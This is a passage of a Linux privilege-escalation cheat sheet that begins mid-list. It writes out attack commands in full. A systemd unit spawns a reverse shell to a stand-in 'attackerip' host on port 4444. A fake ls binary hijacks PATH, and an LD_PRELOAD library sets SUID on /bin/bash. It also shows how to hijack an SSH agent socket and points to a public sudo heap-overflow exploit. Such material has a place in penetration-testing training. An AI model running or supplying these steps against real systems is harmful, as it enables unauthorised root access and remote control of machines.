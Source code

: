 ##### b. **Writable `systemd` Service**
```
ls -la /etc/systemd/system/
```
If a user can modify a service:
```
echo -e "[Service]\nExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attackerip/4444 0>&1'" > /etc/systemd/system/pwn.service
systemctl daemon-reexec
systemctl start pwn
```

#### PATH Variable Exploitation

Poor scripting practices may invoke system binaries without full paths. If `PATH` is controlled, you can inject malicious binaries.
##### Example:
```
export PATH=/tmp:$PATH
echo -e '#!/bin/bash\n/bin/bash' > /tmp/ls
chmod +x /tmp/ls
```
If a script with root privileges calls `ls`, your version executes.

#### Exploiting `LD_PRELOAD`, `LD_LIBRARY_PATH`
Shared object injection using environment variables can be powerful when running scripts or binaries as root.
##### Example:
```
// evil.c
#include <stdio.h>
#include <stdlib.h>
void _init() {
  system("chmod +s /bin/bash");
}
```

```
gcc -shared -fPIC evil.c -o evil.so
LD_PRELOAD=./evil.so <vulnerable-binary>
```

#### SSH Agent Hijacking

If an SSH agent is running and the socket is accessible, you can perform actions on behalf of the user.
```
export SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.1234
ssh-add -l
ssh user@host
```

#### Exploiting sudoedit (CVE-2021-3156)

Some sudo versions allow arbitrary heap-based buffer overflows.
- **Check version**: `sudo -V`
- **If vulnerable**, use public exploit scripts like [Baron Samedit](https://github.com/blasty/CVE-2021-3156).
